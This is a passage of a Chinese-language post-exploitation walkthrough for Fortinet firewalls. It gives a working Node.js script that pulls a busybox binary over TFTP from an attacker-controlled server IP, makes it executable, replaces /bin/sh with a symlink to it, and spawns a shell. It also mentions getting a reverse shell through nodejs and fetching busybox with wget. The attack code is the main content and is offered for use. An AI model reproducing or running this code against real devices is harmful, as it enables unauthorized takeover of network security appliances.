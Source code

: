   
1. 通过之前的命令执行下载 shell.js  
1. shell.js 中至少要包含以下功能  
1. 一：下载 busybox （比之前的操作简单多了！）  
1. 二：给 busybox 执行权限  
1. 三：弄一个 busybox 的 shell 软链  
1. 四：调用 busybox 中内置的命令 起 shell  
还有一种思路就是通过nodejs 去渲染反弹shell的指令 虽然飞塔的shell被阉割的很严重 但是可以用wget 然后 去wget 服务器上的busybox  
  
  
这里一个一个思路讲吧先复现一下ioo0s师傅的思路  
  
#### 放入js文件用nodejs渲染拉去busybox并且赋权 开ssh环境  
  
  
js的文件内容  
  
```
const fs = require('fs');
const { execSync } = require('child_process');

const tftpServer = '192.168.111.160';    // ⚠️ 替换为你的 TFTP 服务器 IP
const remoteFile = 'busybox';            // ⚠️ 替换为你的 busybox 文件名
const localPath = '/bin/busybox';
const shellLink = '/bin/sh';

try {
  // 1. 使用正确格式的 tftp 命令
  console.log('[*] 正在通过 TFTP 下载 busybox...');
  execSync(`tftp ${tftpServer} ${remoteFile} get octet ${localPath}`, { stdio: 'inherit' });

  // 2. 赋予执行权限
  console.log('[*] 设置执行权限...');
  fs.chmodSync(localPath, 0o755);

  // 3. 创建软链接
  console.log('[*] 创建 shell 软链...');
  if (fs.existsSync(shellLink)) fs.unlinkSync(shellLink);
  fs.symlinkSync(localPath, shellLink);

  // 4. 启动 busybox 的 shell
  console.log('[*] 启动 busybox shell...');
  execSync(`${shellLink} sh`, { stdio: 'inherit' });

} catch (err) {
  console.error('[!] 执行失败:', err.message);
}
```  
  
 busybox可以用自己编译的也可以去wget一个  
  
  
编译好的busybox地址各个架构都有  
  
  
Index of /downloads/binaries/1.21.1  
  